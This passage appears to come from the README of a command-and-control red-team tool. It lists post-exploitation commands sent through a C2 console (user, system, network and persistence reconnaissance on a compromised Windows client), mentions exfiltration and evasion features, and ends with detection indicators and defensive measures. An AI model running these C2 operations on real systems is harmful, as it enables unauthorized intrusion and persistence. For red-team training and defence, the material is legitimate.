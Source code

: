 2. **Post-Exploitation Commands:**
   ```bash
   C2> exec client_id whoami
   C2> exec client_id ipconfig
   C2> exec client_id dir C:\Users
   C2> exec client_id net user
   C2> exec client_id systeminfo
   ```

3. **Persistence Testing:**
   ```bash
   # Verify persistence mechanisms
   C2> exec client_id reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run"
   C2> exec client_id schtasks /query /fo LIST
   ```

4. **Network Discovery:**
   ```bash
   C2> exec client_id ipconfig /all
   C2> exec client_id arp -a
   C2> exec client_id netstat -an
   C2> exec client_id nslookup domain.com
   ```

### **Red Team Exercises**

- **Multi-stage deployment** with different client configurations
- **Lateral movement simulation** using network discovery commands
- **Data exfiltration testing** with file upload/download capabilities
- **Detection evasion testing** using stealth features

## 🚨 Detection and Defense

### **Network Indicators**
- Traffic to C2 server IP on port 4444 (or configured port)
- TLS-like encrypted traffic patterns
- Regular heartbeat connections

### **Host Indicators**
- Unusual network connections from system processes
- Registry modifications in Run keys
- Unknown services or scheduled tasks
- Processes with suspicious names but legitimate-looking

### **Defensive Measures**
- Network monitoring and traffic analysis
- Host-based detection of persistence mechanisms
- Application whitelisting
- Behavioral analysis of processes
- Regular security assessments

## 📊 Project Structure

